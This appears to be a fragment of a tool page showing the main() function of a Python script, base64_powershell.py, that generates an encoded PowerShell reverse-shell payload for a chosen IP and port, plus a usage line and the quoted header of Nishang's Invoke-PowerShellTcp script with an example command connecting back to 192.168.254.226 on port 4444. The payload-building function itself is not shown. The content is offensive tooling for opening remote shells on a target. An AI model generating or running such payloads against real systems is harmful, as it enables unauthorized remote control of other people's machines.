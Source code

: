 ```python
# ----------------------------------------

def main():
    global IP, PORT
    
    ip, port = "", 0
    if len(sys.argv) < 3:
        print(f"[INFO]: Usage {sys.argv[0]} <IP> <PORT>")
        ip, port = IP, PORT
    else:
        ip, port = sys.argv[1], sys.argv[2]

    print(f"[INFO]: OK")
    print(f"[INFO]: Generating payload for {ip=} AND {port=}")
    
    payload = gen_payload(ip, port)

    print(f"[INFO]: Payload below\n")
    print(payload)
    print()
    
# ----------------------------------------

    
if __name__ == "__main__":
    main()
```

It can be used as follows:

```sh
python3 base64_powershell.py  192.168.122.1 7777
```

---

## References

Reverse Shell in Powershell: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

```